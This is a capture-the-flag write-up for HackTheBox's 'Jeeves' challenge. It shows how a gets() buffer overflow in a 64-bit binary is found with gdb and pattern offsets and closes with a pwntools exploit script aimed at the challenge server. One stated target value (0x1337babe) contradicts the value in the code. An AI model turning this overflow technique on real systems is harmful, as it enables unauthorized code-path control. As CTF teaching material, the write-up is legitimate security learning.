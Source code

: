 ```yaml
---
title: HTB [JEEVES] [PWN]
date: 2022-06-03 00:28:05 +0200
categories: [pwn,htb]
tags: [Intro to Binary Exploitation]
excerpt: Write up for the challenge "Jeeves" from HackTheBox
---
```


<!--more-->

## Jeeves

**Challenge Description:**

> How are you doing, sir?


**Analysis:**
- We're having a 64 bit executable file
- it's dynamically linked an not stripped
- Now let's check the mitigations of this binary

- **Mitigations:**

```css
     Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Decompile:**

![](https://i.imgur.com/NNawgk3.png)
- *Line12:* gets() is vulnerable to buffer overflow
- *Line14:* They're checking `local_c` == `0x1337bab3`
- It's impossible for this condition check to be true 
- So we're going to use buffer overflow to overwrite this variable's value to `0x1337babe`
- So we can able to read the flag :D

**Exploitation part:**
- First we need to know the offset to that `local_c` variable
- So, I'm generating a pattern with [pattern.py](https://github.com/jopraveen/exploit-development/blob/main/pattern.py)

```css
 0x0000000000001236 <+77>:	cmp    DWORD PTR [rbp-0x4],0x1337bab3
```
- Now setting a break point in this instruction and running it
- Then giving that generated pattern as a input to the program in gdb

![](https://i.imgur.com/DOokuy0.png)
- Now let's see where it occours

```css
➜  ~  pattern Ac0Ac1Ac2Ac         
Pattern Ac0Ac1Ac2Ac first occurrence at position 60 in pattern.
```

- So our exploit be like

|junk|60 bytes|
|-|-|
|0x1337bab3|8 bytes|


**Exploit script:**
```python
from pwn import *

p = remote('157.245.33.77',31834)

payload = b'A'*60
payload += p64(0x1337bab3)

p.sendline(payload)
p.interactive()
```


![](https://i.imgur.com/09LTLgy.png)
- Cool we got our flag!!

